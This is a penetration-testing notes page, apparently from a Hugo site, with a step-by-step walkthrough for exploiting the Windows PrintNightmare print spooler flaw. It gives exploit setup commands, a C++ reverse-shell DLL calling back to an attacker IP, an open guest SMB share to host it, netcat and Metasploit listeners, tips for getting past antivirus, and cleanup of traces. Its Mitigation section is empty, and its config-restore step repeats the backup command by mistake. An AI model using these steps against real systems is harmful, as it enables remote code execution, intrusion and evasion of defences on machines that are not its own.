


---
### The title for the content.
title : "printnightmare"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "printnightmare"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "printnightmare description."
### The datetime assigned to this page.
date : 2021-09-10T14:38:50+02:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "printnightmare"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---

# Printnightmare

## Requirements

A user account. (privs don't mather)

## Scan

### RPC Dump

```bash
rpcdump.py @ip | egrep 'MS-RPRN|MS-PAR'
```


### It Was All A Dream

https://github.com/byt3bl33d3r/ItWasAllADream

```bash
git clone https://github.com/byt3bl33d3r/ItWasAllADream
cd ItWasAllADream && docker build -t itwasalladream .
docker run -it itwasalladream -u user -p password -d domain 192.168.1.0/24
```

## Setup tool for remote RCE (CVE-2021-1675, CVE-2021-34527)

```bash
mkdir printnightmare
cd printnightmare
mkdir payloads
git clone https://github.com/cube0x0/CVE-2021-1675
git clone https://github.com/cube0x0/impacket
apt install python3-venv
python3 -m venv printnightmare-venv
source printnightmare-venv/bin/activate
cd impacket
pip3 install -r requirements.txt
python3 setup.py install
cd ..
cd CVE-2021-1675
wget https://raw.githubusercontent.com/citronneur/CVE-2021-1675/main/CVE-2021-1675.py -O printnightmare.py
```

## Usage

```bash
python3 printnightmare.py 'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

### Check if system reaches out

By simply trying to connect to a nc instance we can verify that the system can reach our smb server.

Start nc on 445.

```bash
sudo nv -nlvp 445
```

Run printnightmare and try to connect to nc.

```bash
python3 printnightmare.py 'user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```



### Exploit

{}
Ensure that the first thing you do is restart the spooler service. Spooler services sometimes crashes/hangs and from my experience you wont be able to run printnightmare a second time if you don't restart the spooler service.
{}

#### Create DLL

MSVenom is you think AV is not a problem. Otherwise build something custom.

##### Custom simple C++ reverse shell example

Install C++ tools in visual studio.

Create new project with Dynamic-Link Libary template.

Download the `plain_revshell.cpp` file and paste the content into the existing template.

{}

Update the RHOST & RPORT on StartCallback

```cpp
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	switch (dwReason) {
	case DLL_PROCESS_ATTACH:
		StartCallback("172.16.0.137", 80); // <- update this
```

Build the release (ctrl+shift+b)

Place the DLL in the payloads folder

##### Outflank Reflective Dll implementation

https://github.com/outflanknl/PrintNightmare

#### Host Dll

Make a backup of your smb.conf

```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
```

Overwite the file with the following content

```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /home/user/Documents/printnightmare/payloads/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody
```

Ensure the files are owned by nobody

```bash
sudo chown nobody:user -R /home/user/Documents/printnightmare/payloads/
sudo chmod -R 470 /home/user/Documents/printnightmare/payloads/
```

Restart the smbd service

```bash
sudo service smbd restart
```

{}
Don't forget to restore the SMB config :)
{}

```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
sudo service smbd restart
```

#### Run the Exploit

Setup a listner

##### Netcat

```bash
nc -nlvp 80
```

##### MSF multi handler

```bash
msfconsole -x "use exploit/multi/handler;\
set payload generic/shell_reverse_tcp;\
set LHOST 172.16.0.137;\
set LPORT 80;\
set ExitOnSession false;\
run -j"
```

Now run the printnightmare.py.

```bash
python3 printnightmare.py 'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

{}
From my experience the Spooler services sometimes crashes/hangs and you wont be able to run printnightmare a second time if you don't restart the spooler service. If you don't spawn a new process in the DLL ensure that the first thing you do is restart the spooler service.
{}

```bash
net stop spooler && net start spooler
```



#### Errors & tips

| Error | Solution |
|-|-|
| DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied | permissions on the file in the SMB share |
| RPRN SessionError: unknown error code: 0x180 | Enable SMB2Support |
| RPRN SessionError: code: 0x2: - ERROR_FILE_NOT_FOUND - The system cannot fil the file specified. | Typo in supplied DLL ? |
| RPRN SessionError: code: 0xd8 - ERROR_EXE_MACHINE_TYPE_MISMATCH | DLL is kaduk or wrong architect (x86 vs x64) |
| RPRN SessionError: code 0xe1 - ERROR_VIRUS_INFECTED | AV caught you butt, try harder |
| RPRN SessionError: Unknown error code: 0x8001011b | Seems like the host is patched |
| SMB SessionError: STATUS_PIPE_BROKEN | Print spooler service crashed during payload execution. Start the spooler if you got a shell (PowerShell -> `start-service spooler`. CMD -> `net start spooler`) |
| After killing the session the payload does not work a second time | Always ensure the first thing you do is restart the spooler service upon a shell connect. If you did this, use a different printername. Otherwise ur fuk'd |
| When removing the print drivers using `Print Server Properties` the dll will execute again. | Nothing, just something to be aware of. |


### cleanup

#### PowerShell

##### Load PrintManagement PS Module (should be loaded by default on W10)

```PowerShell
Import-Module PrintManagement
```

##### List current print drivers

```PowerShell
Get-PrinterDriver
```

##### Remove print drivers

```PowerShell
Get-PrinterDriver -Name PrinterName
```

##### Oneliner to clean up

Watch out, `Where-Object` uses Wildcards to get both drivers that get installed (`PrinterName0`, `PrinterName1`). Make sure it does not match existing print drivers, clean manually. Also make sure to update the DLLNAME so the actual uploaded file gets removed.

Error `HRESULT 0x800706be` on Remove-PrintDriver can happen. This is due the print spooler crashing.

```PowerShell
Start-Service Spooler;Import-Module PrintManagement;Get-PrinterDriver | Where-Object {$_.Name -like "*PrinterName*"} | Remove-PrinterDriver;Start-Service Spooler;Start-Sleep -s 2;Get-PrinterDriver;Remove-Item "C:\windows\system32\spool\drivers\x64\3\DLLNAME.dll"
```

### Mitigation
